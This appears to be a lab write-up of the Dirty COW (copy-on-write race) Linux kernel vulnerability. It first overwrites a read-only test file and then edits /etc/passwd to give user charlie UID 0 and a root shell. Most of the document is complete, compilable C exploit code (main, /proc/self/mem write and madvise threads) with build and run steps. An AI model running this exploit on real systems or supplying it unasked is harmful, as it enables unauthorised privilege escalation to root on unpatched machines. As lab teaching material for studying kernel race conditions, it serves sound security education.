


## Task 1: Modify a Dummy Read-Only File

### 1. create a dummy file



we can see that if we try to write to this file as a normal user, we will fail, because the file is only readable to normal users.

<!-- more -->

### 2. Set Up the Memory Mapping Thread

The main thread
```c
/* cow_attack.c (the main thread) */
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>
void *map;

void *writeThread(void *arg);
void *madviseThread(void *arg);
int main(int argc,char *argv[])
{
    pthread_t pth1,pth2;
    struct stat st;
    int file_size;
    // Open the target file in the read-only mode.
    int f = open("/zzz", O_RDONLY);
    // Map the file to COW memory using MAP_PRIVATE.
    fstat(f, &st);
    file_size = st.st_size;
    map = mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
    // Find the position of the target area
    char *position = strstr(map,"222222");
    // We have to do the attack using two threads.
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);
    //Wait for the threads to finish.
    pthread_join(pth1,NULL);
    pthread_join(pth2,NULL);
    return 0;
}
```

mmap: Maps a file or device into memory, allowing the file's contents to be accessed like an array in virtual memory.

- 1st arg: Starting address for the mapped memory (usually set to NULL to let the kernel choose)  
- 2nd arg: Size of the mapped memory (in bytes, typically page-aligned)  
- 3rd arg: If the memory is readable or writable (PROT_READ, PROT_WRITE, etc.)  
- 4th arg: If updates are shared with other processes or kept private (MAP_SHARED or MAP_PRIVATE)  
- 5th arg: File that needs to be mapped (file descriptor from open)  
- 6th arg: Offset indicating from where inside the file the mapping should start (must be page-aligned)

### 3. Set Up the write Thread
```c
void *writeThread(void *arg)
{
    char *content = "******";
    off_t offset = (off_t)arg;
    int f = open("/proc/self/mem", O_RDWR);
    while(1){
        // Move the file pointer to the corresponding position.
        lseek(f, offset, SEEK_SET);
        // Write to the memory.
        write(f, content, strlen(content));
    }
}
```

### 4. The madvise Thread
```c
void *madviseThread(void *arg)
{
    int file_size = (int)arg;
    while(1){
        madvise(map, file_size, MADV_DONTNEED);
    }
}
```

madvise: Provides advice to the kernel about how a specific memory region will be used, allowing the kernel to optimize memory handling. 

- 1st arg: Starting address of the memory region  
- 2nd arg: Size of the memory region (in bytes)  
- 3rd arg: Advice hint for how the memory will be used (e.g., MADV_NORMAL, MADV_SEQUENTIAL, MADV_DONTNEED)

**MADV_DONTNEED: The data in the specified memory range is no longer needed. The kernel can discard the pages;**

### 5. Launch the Attack



We are able to see a modified `/zzz` file

## Task 2: Modify the Password File to Gain the Root Privilege

We create a new account called charlie, and we will turn this normal user into root using the Dirty COW attack. Adding a new account can be achieved using the adduser command. After the account is created, a new record will be added to /etc/passwd. See the following


The main thread
```c
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>
void *map;

void *writeThread(void *arg);
void *madviseThread(void *arg);
int main(int argc, char *argv[])
{
    pthread_t pth1,pth2;
    struct stat st;
    int file_size;
    // Open the /etc/passwd in the read-only mode.
    int f = open("/etc/passwd", O_RDONLY);
    // Map the file to COW memory using MAP_PRIVATE.
    fstat(f, &st);
    file_size = st.st_size;
    map = mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
    // Find the position of the target area(charlie:x:1001 -> charlie:x:0000)
    char *position = strstr(map,"charlie:x:1001");
    // We have to do the attack using two threads.
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);
    //Wait for the threads to finish.
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    return 0;
}
```

The write Thread
```c
void *writeThread(void *arg)
{
    char *content = "charlie:x:0000";  //set the charlie's id to 0(root)
    off_t offset = (off_t) arg;
    int f = open("/proc/self/mem", O_RDWR);
    while(1){
        // Move the file pointer to the corresponding position.
        lseek(f, offset, SEEK_SET);
        // Write to the memory.
        write(f, content, strlen(content));
    }
}
```

The madvise Thread
```c
void *madviseThread(void *arg)
{
    int file_size = (int)arg;
    while(1){
        madvise(map,file_size, MADV_DONTNEED);
    }
}
```

After compile the `cow_attack.c` with
```bash
gcc cow_attack.c -lpthread
```

We run the `a.out` and press Ctrl-C after a few seconds


If we switch user to charlie, we are able to see the root shell. If you run the id command, you should be able to see that you have gained the root privilege.